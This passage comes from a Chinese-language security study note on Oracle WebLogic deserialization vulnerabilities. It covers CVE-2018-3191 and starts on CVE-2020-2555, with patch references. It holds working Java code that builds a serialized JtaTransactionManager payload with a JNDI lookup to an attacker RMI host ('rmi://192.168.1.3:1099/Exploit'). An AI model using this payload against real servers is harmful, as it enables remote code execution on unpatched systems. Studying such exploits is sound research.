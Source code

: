 ```java
        System.out.println("-------序列化成功" + serName);
    }

}
```

### 修复

补丁：2018年8月 p28343311_1036_201808Generic
修复方法是添加更底层的java.rmi.server.RemoteObject。

## CVE-2018-3191

这个洞是jndi注入。触发点在JtaTransactionManager。

```java
import com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;

public class CVE_2018_3191 {
    public static void main(String[] args) throws IOException {
        String jndiAddress = "rmi://192.168.1.3:1099/Exploit";
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        jtaTransactionManager.setUserTransactionName(jndiAddress);
        ser(jtaTransactionManager, "CVE_2018_3191.ser");
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }
}
```

### 修复

补丁：2018年8月 p28343311_1036_Generic





## CVE-2020-2555

Oracle Coherence组件存在漏洞，该组件默认集成在Weblogic12c及以上版本中（网上资料这么说的：web10.3.6也有只是默认没有启用，未验证）。
这个漏洞和cc5的构造有异曲同工之妙，触发点在BadAttributeValueExpException#readObject 中调用toString方法。

**Coherence组件**
